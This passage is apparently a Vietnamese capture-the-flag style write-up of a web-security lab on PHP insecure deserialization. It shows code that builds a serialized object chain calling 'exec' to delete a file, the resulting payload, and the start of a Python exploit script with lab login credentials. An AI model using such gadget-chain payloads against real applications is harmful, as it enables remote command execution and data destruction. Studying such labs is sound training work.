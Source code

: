 ### Khai thác

Dựa vào phân tích trên, ta tạo đoạn code generate payload như sau để xóa file /home/carlos/morale.txt:

```php=
<?php

class DefaultMap {
    public $callback;
}

class CustomTemplate {
    public $default_desc_type;
    public $desc;
}

$b = new DefaultMap();
$b->callback = "exec";

$a = new CustomTemplate();
$a->default_desc_type = "rm /home/carlos/morale.txt";
$a->desc = $b;

$payload = serialize($a);
print_r($payload);
?>
```

![image](https://hackmd.io/_uploads/HJgKBadF6.png)

Thực thi đoạn code trên và mình có payload là 1 serialized CustomTemplate object.

```
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}
```

tương tự các bài trước mình encode url và base64 và gửi lại gói tin đã sửa cookie vào burp suite và giải quyết được bài lab

mình đã viết lại script khai thác:

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup
import base64
from urllib.parse import quote

url = 'https://0a4400490495946f85c3ad2e001000d0.web-security-academy.net'

session = requests.Session()

# Đăng nhập
data_login = {
    'username': 'wiener',
    'password': 'peter',
}

response = requests.post(
    url + "/login",
    data = data_login,
)
```